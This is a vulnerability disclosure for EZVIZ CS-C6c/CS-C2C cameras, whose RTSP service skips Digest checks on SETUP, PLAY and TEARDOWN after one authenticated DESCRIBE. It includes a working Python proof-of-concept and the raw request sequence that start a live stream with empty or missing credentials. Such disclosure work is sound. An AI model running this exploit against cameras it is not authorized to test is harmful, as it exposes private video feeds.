




# EZVIZ CS-C6c/CS-C2C - Improper Authentication of RTSP SETUP and PLAY

### Information

Vendor: Hangzhou Ezviz Network Co., Ltd. (EZVIZ / 杭州萤石网络股份有限公司)

Affected Product: EZVIZ CS-C6c (CS-C6c-V101-1J4WF) and EZVIZ CS-C2C (CS-C2C-1D2WFR-B) network cameras

Affected Firmware Version: CS-C6c: V5.3.8 build 231128; CS-C2C: V5.3.4 build 230420

Vendor Homepage: [https://www.ezviz.com/](https://www.ezviz.com/)

Vendor Contact Information: [security@ezviz.com](mailto:security@ezviz.com) (EZVIZ Security Response Center: https://www.ezviz.com/us/trust-center/security/response-center)



Affected Component: RTSP service (TCP/554), Digest authentication handling


### Description

An improper authentication vulnerability exists in the RTSP service of EZVIZ CS-C6c (CS-C6c-V101-1J4WF, firmware V5.3.8 build 231128) and EZVIZ CS-C2C (CS-C2C-1D2WFR-B, firmware V5.3.4 build 230420). Digest authentication is enforced on the initial authenticated DESCRIBE request, but SETUP and PLAY are not covered by per-request validation. After one valid authenticated DESCRIBE on a connection, SETUP with an empty or incorrect Digest response, or with no Authorization header, returns 200 OK and issues a Session; PLAY and TEARDOWN with an empty, incorrect or missing Authorization also return 200 OK. This allows an attacker who can reuse an authenticated RTSP connection or obtain a valid session to establish and control the live media stream without valid per-request credentials.

### Exploit Demo

The RTSP service returns `200 OK` for a normal `OPTIONS`. An unauthenticated `DESCRIBE` returns `401` with a Digest challenge; the PoC sends a valid authenticated `DESCRIBE` and receives `200 OK`. The next `SETUP` for trackID=1 carries `response=""`; the server returns `200 OK` and issues a Session. `PLAY` with no Authorization header returns `200 OK` and starts the media stream:



Wireshark shows the authenticated `DESCRIBE`, the `SETUP` with `response=""`, and the `PLAY` without Authorization, all accepted:



The TCP stream shows the empty Digest response on `SETUP` and the `PLAY` request without an Authorization header:



The confirmed trigger surface covers all later methods:

| Test (same connection after a valid authenticated `DESCRIBE`) | Response |
|---|---|
| `SETUP` track 1, `response=""` / wrong / no `Authorization` | `200 OK`, Session issued |
| `SETUP` track 2, `response=""` / wrong / no `Authorization` | `200 OK` |
| `PLAY`, `response=""` / wrong / no `Authorization` | `200 OK` |
| `TEARDOWN`, `response=""` / wrong / no `Authorization` | `200 OK` |

The authenticated `DESCRIBE` establishes the connection authentication state; the server does not revalidate the Digest response for `SETUP`, `PLAY`, or `TEARDOWN`. The PoC uses `SETUP` with `response=""` as the representative trigger; `PLAY` without Authorization is the impact demonstration.

The same trigger was confirmed on the CS-C2C unit during the analysis; the screenshots and video were captured on the CS-C6c unit.

A 55-second screen recording of the full reproduction is provided as [04_reproduction_video.mp4](./images/04_reproduction_video.mp4). It shows the authenticated `DESCRIBE`, the `SETUP` with `response=""`, and the `PLAY` without Authorization.


### POC

The following standalone Python 3 PoC reproduces the representative trigger. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values. The trigger request is defined explicitly in the code.

```python
#!/usr/bin/env python3
"""EZVIZ CS-C6c RTSP Digest revalidation PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
After one valid authenticated DESCRIBE, the server accepts SETUP with an empty
Digest response and PLAY without Authorization.
Run this file directly from VS Code.
"""

import hashlib
import re
import socket
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

REQUEST_INTERVAL = 1.0
RESPONSE_WAIT = 8.0
USER_AGENT = "LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)"

BASE = "rtsp://%s:%d" % (TARGET_IP, TARGET_PORT)

BASELINE_OPTIONS = (
    "OPTIONS " + BASE + " RTSP/1.0\r\n"
    "CSeq: 2\r\n"
    "User-Agent: " + USER_AGENT + "\r\n\r\n"
)

UNAUTH_DESCRIBE = (
    "DESCRIBE " + BASE + " RTSP/1.0\r\n"
    "CSeq: 3\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Accept: application/sdp\r\n\r\n"
)

AUTH_DESCRIBE_TEMPLATE = (
    "DESCRIBE " + BASE + " RTSP/1.0\r\n"
    "CSeq: 4\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + BASE + "\", response=\"__RESPONSE__\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Accept: application/sdp\r\n\r\n"
)

# Request 4: the trigger. The Digest response is empty.
TRIGGER_SETUP_TEMPLATE = (
    "SETUP " + BASE + "/trackID=1 RTSP/1.0\r\n"
    "CSeq: 5\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + BASE + "/trackID=1\", response=\"\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)

PLAY_WITHOUT_AUTH = (
    "PLAY " + BASE + "/ RTSP/1.0\r\n"
    "CSeq: 6\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Session: __SESSION__\r\n"
    "Range: npt=0.000-\r\n\r\n"
)


def md5_hex(text):
    return hashlib.md5(text.encode("latin-1")).hexdigest()


def digest_response(method, uri, realm, nonce):
    ha1 = md5_hex("%s:%s:%s" % (USERNAME, realm, PASSWORD))
    ha2 = md5_hex("%s:%s" % (method, uri))
    return md5_hex("%s:%s:%s" % (ha1, nonce, ha2))


def render(template, realm, nonce, response):
    return (template.replace("__REALM__", realm)
                    .replace("__NONCE__", nonce)
                    .replace("__RESPONSE__", response))


def show_payload(payload):
    text = payload if isinstance(payload, str) else payload.decode("latin-1")
    print("  send:")
    for line in text.rstrip("\r\n").split("\r\n"):
        marker = "   <-- empty Digest response" if 'response=""' in line else ""
        if len(line) > 140:
            line = line[:110] + "... [%d bytes total]" % len(line)
        print("    | " + line + marker)


class Connection:
    def __init__(self, timeout):
        self.sock = socket.create_connection((TARGET_IP, TARGET_PORT), timeout=timeout)
        self.sock.settimeout(timeout)
        self.buffer = b""

    def close(self):
        try:
            self.sock.close()
        except OSError:
            pass

    def _fill(self):
        chunk = self.sock.recv(65536)
        if not chunk:
            raise ConnectionError("RTSP connection closed")
        self.buffer += chunk

    def _read_until(self, marker):
        while marker not in self.buffer:
            self._fill()
        index = self.buffer.index(marker) + len(marker)
        data, self.buffer = self.buffer[:index], self.buffer[index:]
        return data

    def _read_exact(self, size):
        while len(self.buffer) < size:
            self._fill()
        data, self.buffer = self.buffer[:size], self.buffer[size:]
        return data

    def read_response(self):
        head = self._read_until(b"\r\n\r\n")
        lines = head.decode("latin-1").split("\r\n")
        status = lines[0]
        headers = {}
        for line in lines[1:]:
            if not line:
                continue
            name, _, value = line.partition(":")
            key = name.strip().lower()
            value = value.strip()
            if key == "www-authenticate":
                if "digest" in value.lower():
                    headers[key] = value
                elif key not in headers:
                    headers[key] = value
            else:
                headers[key] = value
        length = int(headers.get("content-length", "0"))
        body = self._read_exact(length) if length else b""
        return status, headers, body

    def send(self, label, payload):
        print("\n" + label)
        show_payload(payload)
        time.sleep(REQUEST_INTERVAL)
        raw = payload.encode("latin-1") if isinstance(payload, str) else payload
        self.sock.sendall(raw)
        try:
            status, headers, body = self.read_response()
        except socket.timeout:
            print("  -> TIMEOUT: no RTSP response within %.1fs" % RESPONSE_WAIT)
            return None, {}, b""
        except (OSError, ValueError) as exc:
            print("  -> %s: %s" % (type(exc).__name__, exc))
            return None, {}, b""
        print("  <- " + status)
        return status, headers, body


def main():
    print("=" * 72)
    print("EZVIZ CS-C6c RTSP Digest revalidation PoC")
    print("  target: %s:%d" % (TARGET_IP, TARGET_PORT))
    print("  trigger: SETUP with an empty Digest response")
    print("=" * 72)

    conn = Connection(RESPONSE_WAIT)
    try:
        status, _, _ = conn.send("[1/5] Baseline OPTIONS", BASELINE_OPTIONS)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Baseline OPTIONS did not return 200; aborting.")
            return

        status, headers, _ = conn.send(
            "[2/5] Unauthenticated DESCRIBE", UNAUTH_DESCRIBE)
        if not status or not status.startswith("RTSP/1.0 401"):
            print("Expected a 401 Digest challenge; aborting.")
            return
        challenge = headers.get("www-authenticate", "")
        realm = re.search(r'realm="([^"]+)"', challenge).group(1)
        nonce = re.search(r'nonce="([^"]+)"', challenge).group(1)
        print("  realm: " + realm)
        print("  nonce: " + nonce)

        valid = digest_response("DESCRIBE", BASE, realm, nonce)
        request = render(AUTH_DESCRIBE_TEMPLATE, realm, nonce, valid)
        status, _, _ = conn.send("[3/5] Authenticated DESCRIBE", request)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Authenticated DESCRIBE did not return 200; aborting.")
            return

        trigger = render(TRIGGER_SETUP_TEMPLATE, realm, nonce, "")
        print("\n" + "=" * 72)
        print(">>> TRIGGER: [4/5] SETUP with response=\"\" <<<")
        print(">>> The server accepts the empty Digest response. <<<")
        print("=" * 72)
        status, headers, _ = conn.send("[4/5] TRIGGER SETUP", trigger)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Trigger did not return 200; aborting.")
            return
        session = headers.get("session", "").split(";")[0].strip()
        print("  Session: " + session)

        request = PLAY_WITHOUT_AUTH.replace("__SESSION__", session)
        status, _, _ = conn.send("[5/5] PLAY with Authorization omitted", request)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("PLAY did not return 200; aborting.")
            return

        print("\nSETUP and PLAY were accepted without a valid per-request")
        print("Digest response after the authenticated DESCRIBE.")
    finally:
        conn.close()


if __name__ == "__main__":
    main()

```

### MSG

The complete representative request sequence follows. `192.168.1.100` is a placeholder for the target address; `<realm>`, `<nonce>`, `<valid response>` and `<session>` are dynamic values. The SETUP request carrying `response=""` is the trigger; PLAY without Authorization follows it.

```text
OPTIONS rtsp://192.168.1.100:554 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)

DESCRIBE rtsp://192.168.1.100:554 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Accept: application/sdp

DESCRIBE rtsp://192.168.1.100:554 RTSP/1.0
CSeq: 4
Authorization: Digest username="<username>", realm="<realm>", nonce="<nonce>", uri="rtsp://192.168.1.100:554", response="<valid response>"
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Accept: application/sdp

SETUP rtsp://192.168.1.100:554/trackID=1 RTSP/1.0
CSeq: 5
Authorization: Digest username="<username>", realm="<realm>", nonce="<nonce>", uri="rtsp://192.168.1.100:554/trackID=1", response=""
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

PLAY rtsp://192.168.1.100:554/ RTSP/1.0
CSeq: 6
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Session: <session>
Range: npt=0.000-
```

### Credit

CRfuzzer
